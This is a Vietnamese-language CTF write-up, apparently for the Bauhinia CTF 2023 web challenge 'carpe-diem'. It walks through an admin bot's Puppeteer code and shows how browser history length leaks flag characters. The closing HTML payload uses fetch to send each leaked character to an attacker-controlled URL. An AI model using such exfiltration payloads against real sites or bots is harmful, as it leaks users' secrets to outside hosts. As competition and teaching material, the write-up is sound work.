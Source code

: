 # analysis
```const idx = Math.floor(Math.random() * flag_content.length);
    const k = flag_content.charCodeAt(idx) - 65 + 1;

    for (let i = 0; i < k; i++) {
        await page.goto(`http://localhost:${PORT}/${crypto.randomBytes(20).toString("hex")}`, {waitUntil: "networkidle0"});
    }

    await page.goto(url+`?z=${idx}`, {waitUntil: "networkidle2"});
```
Quy trình thực hiện của code:  
- biến idx sẽ ra kết quả của Math.random() nhân với độ dài của flag và làm tròn xuống (hàm Math.random() sẽ trả về giá trị ngẫu nhiên từ 0<=x<1) nên giá trị của idx sẽ không thể lớn lơn độ dài flag và luôn lớn hơn 0
- biến k giá trị của nó sẽ là nội mã ascii của flag_content tại vị trí idx - 65 + 1 . ví dụ nếu vị trí idx là 'A' thì nó sẽ trả về 1  
![image](https://github.com/vanatka10/ctf_walkthrough/blob/533b78e7d934c5c4ef72136774b690e7d75bbf20/Bauhinia%20CTF%202023/web/carpe-diem_6f1189b7ee82fa28da29a6215ae9b0da/img/New%20Bitmap%20image.jpg)
- Thực hiện vòng lặp load 1 trang ngẫu nhiên 
- Cuối cùng là thực hiện đến trang web mà ta đã nhập vào ô input cùng với tham số z với giá trị là idx
# solution
- Nói đơn giản bài này chỉ là 1 biến idx cho biết vị trí ngẫu nhiên của k, còn biến k để hiển thị giá trị theo kiểu ascii cũng là ngẫu nhiên giá trị trong flag_content
- Ta có thể biết được hết giá trị idx cũng như độ dài của flag bằng cách kêu con bot ghé thăm nhiều lần . Vậy còn thiếu k là giá trị để biết nội dung của flag .
  ```
   for (let i = 0; i < k; i++) {
        await page.goto(`http://localhost:${PORT}/${crypto.randomBytes(20).toString("hex")}`, {waitUntil: "networkidle0"});
    }
  ```
  - Trong này nó thực hiện visit đến trang ngẫu nhiên , tưởng rằng vô dụng nhưng cách khai thác ở chỗ ta có thể đếm được k bằng cách dùng window.history.length bởi vì nó bot thực hiện visit trên cùng 1 tab nên sẽ để lại lịch sử từ đó ta sẽ có được k (trừ đi 3 nữa: trang đầu tiên trước khi bot visit,trang bot url mình gửi,và 1 trừ cái đầu tiên)
  payload:
```
<html>
  <body>
    <script>
      k=String.fromCharCode(window.history.length+62);
      fetch('${yoururl}/?char='+encodeURI(String(k)));
    </script>
  </body>
</html>
```



